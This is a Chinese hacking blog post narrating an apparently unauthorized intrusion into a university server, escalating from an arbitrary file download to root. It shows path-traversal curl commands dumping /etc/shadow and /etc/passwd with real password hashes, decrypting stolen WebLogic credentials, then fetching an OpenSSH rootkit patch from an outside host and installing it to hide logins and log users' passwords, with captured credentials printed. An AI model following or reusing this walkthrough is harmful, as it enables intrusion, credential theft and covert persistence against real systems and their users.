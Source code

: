 ```yaml
---
layout: post
title: "从任意文件下载到系统 root 权限"
description: "Hacking"
headline: 
modified: 2015-10-21
category: Hacking
tags: [Hacking]
imagefeature: 
mathjax: 
chart: 
author: Ricter
comments: true
featured: true
---
```


* 目录
{:toc}

# [从任意文件下载到系统 root 权限]()


其实蛮没有技术含量。我在两年前遇到这个任意文件下载，却不知道该怎么做，到现在渗透经验足了，拿下了，然后记录一下这一个过程，就这样qwq。

## 0x01

目标站是学校内的一个某系统，存在一个 root 权限的任意文件下载漏洞。年轻的时候我用 AWVS 扫到，很开心。但是我只知道下载 `/etc/passwd` 和 `/etc/shadow`，然后去 cmd5 破解了个密码。

     owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/shadow" | grep "\$1"
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  1450    0  1450    0     0   167k      0 --:--:-- --:--:-- --:--:--  177k
    root:$1$skHsra.H$231VnTWRAH5IZu/ZprShG1:15355:0:99999:7:::
    noc:$1$VfzOW6qf$5bFZHbF9kffKjWNNRRS.t1:15050:0:99999:7:::
    upload:$1$6l1DPvdr$9n35rMlJ.Y0K9T7LTTt4e.:15869:0:99999:7:::
    save:$1$MtVRP4E2$VR2c3KpZzxMXyrtbx5PKC1:15041:0:99999:7:::
    cisco:$1$imx62ClO$JoeFAGinKdzZFMZ1qmam20:15050:0:99999:7:::
    log:$1$G0ukagUJ$WGon1ynxgRMKxY1mY6HUa.:15105:0:99999:7:::
    `

    得到了 log 的密码是 log，save 的密码是 save。但是，可以破解密码都不能登录。

    ` owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/passwd" | grep bash
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  2061    0  2061    0     0   228k      0 --:--:-- --:--:-- --:--:--  251k
    root:x:0:0:root:/root:/bin/bash
    weblogic:x:501:501::/home/weblogic:/bin/bash
    cisco:x:504:504::/home/cisco:/bin/bash
    `

    当时只到这里，啊，不知道怎么做了，GG，该干嘛干嘛。还是太年轻qwq。

    其实还有很多东西可以下载，比如 `/root/.bash_history`，看了一遍，拿到了 Web 目录：`/home/web/jsp/bea/user_projects/domains/xxx`。

    这个站其实是 weblogic 搭建的，比较蛋碎的是，我又不知道 weblogic 的密码，也不知道存放密码的路径。 

    #### 题外话

    其实如果经验足够的话，应该可以知道密钥和密码文件存放的路径。

    密钥路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/security/SerializedSystemIni.dat 

    密码文件路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/servers/APP_NAME/security/boot.properties

    其中大部分信息都在 .bash_history 得到了，不过我还是不知道在哪，真是残念。

    #### 题外话结束

    但是我机智的用 nmap 扫了下端口，发现 FTP 是 vsftpd。vsftpd 这么 6666，没做 chroot 的情况下可以各种看目录，而且用系统帐号就能登陆上。虽然是 `/sbin/nologin/`，但是 vsftp 还是能用的。上去之后翻了下目录，找到了加密后的密码还有加密密码的密钥。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/4.PNG) 

    ## 0x02

    根据 [http://drops.wooyun.org/tips/349](http://drops.wooyun.org/tips/349)，可以造怎么去破解密码。里面给出的密码破解的 java 脚本依赖 weblogic 的包，我并不想在本地安装 weblogic，于是去万能的 Github 找了下，找到这个程序：[https://github.com/NetSPI/WebLogicPasswordDecryptor](https://github.com/NetSPI/WebLogicPasswordDecryptor)

    用法如下： 

    ` owo &gt; git clone https://github.com/NetSPI/WebLogicPasswordDecryptor
    Cloning into 'WebLogicPasswordDecryptor'...
    remote: Counting objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Unpacking objects: 100% (31/31), done.
    Checking connectivity... done.
     owo &gt; tmp cd WebLogicPasswordDecryptor/
     owo &gt; WebLogicPasswordDecryptor git:(master) javac WebLogicPasswordDecryptor.java
    WebLogicPasswordDecryptor.java:2: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
    import sun.misc.BASE64Decoder;
                   ^
    WebLogicPasswordDecryptor.java:41: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    WebLogicPasswordDecryptor.java:95: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    3 个警告
     pwq &gt; WebLogicPasswordDecryptor git:(master) ? java WebLogicPasswordDecryptor /tmp/SerializedSystemIni.dat "{3DES}0/rNaowFnaz32NHhiOKRmg=="
    DCaW2uXXX
     owo &gt; WebLogicPasswordDecryptor git:(master) ?
    `

    话说如果编译的时候发现缺少什么依赖包，可以去万能的 Google 搞定，我就不提了。 

    既然密码破解出来了，那就去 getshell 吧。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/2.PNG)

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/1.PNG)

    ## 0x03

    拿到之后，并不知道密码，心里很纠结。

    因为这里的 cisco 账号也在某 mail.cqupt.edu.cn 中出现了，所以，我感觉还是要上一个比较牛逼的 backdoor。 

    问了我猫总之后，猫总推荐了我一个 openssh 的 backdoor。地址在这：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz) 

    首先 wget 下来，然后看一下 README 和 INSTALL。

    `[root@xxx openssh-5.9p1.patch]# ls
    INSTALL  LICENSE  openssh-5.9p1  openssh-5.9p1.tar.gz  README  sshbd5.9p1.diff  ssh_integrity_checker.sh
    [root@oa openssh-5.9p1.patch]# cat README
    Read LICENSE before redistributing
    Read INSTALL to install backdoor
    ssh_integrity_checker is tool for sysadmin to check possible OpenSSH infection

    FEATURES:
    - Isn't logged in lastlog, wtmp, utmp
    - Your IP isn't logged in /var/log/message and /var/log/secure (RHEL/CentOS)
    - Your IP isn't logged in /var/log/syslog and /var/log/auth.log (Ubuntu/Debian)
    - Record incoming/outgoing user and password for SSH login
    - Instant root access and bypass PermitRootLogin on sshd_config
    - Also support for SSH with pam enabled
    [root@oa openssh-5.9p1.patch]# cat INSTALL

    -- QUICKSTART

    wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
    tar zxvf openssh-5.9p1.tar.gz
    cp sshbd5.5p1.diff openssh-5.9p1/
    cd openssh-5.9p1
    patch &lt; sshbd5.9p1.diff

    modify version.h
    modify secret password and log path on includes.h
    make sure you already install zlib, openssl, kerberos5, and libpam development header file

    ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
    make &amp;&amp; make install &amp;&amp; service ssh restart (debian/ubuntu)
    make &amp;&amp; make install &amp;&amp; service sshd restart (redhat/centos)
    [root@xxx openssh-5.9p1.patch]#
    `

    根据提示要安装一下 zlib-devel、openssl-devel、pam-devel、krb5-lib 之类的包。

    接着下载 openssh-5.9p1 的源代码，patch 掉，然后修改 `includes.h`，在 `includes.h` 的最下面。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/3.PNG) 

    接着 `./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5`，然后 `make &amp;&amp; make install`。 

    重启 sshd 服务后，可以记录账号密码了。ssh 进来的在 `/tmp/ilog`，ssh 出去的在 `/tmp/olog`。

    `[root@xxx tmp]# cat ilog
    user:password --&gt; log:log
    user:password --&gt; log:log
    user:password --&gt; log:log
    [root@oa tmp]# cat olog
    user:password@host --&gt; root:asd@localhost
    [root@xxx tmp]#

接下来就是慢慢的等待了。

        
        

        
        
            
        
    
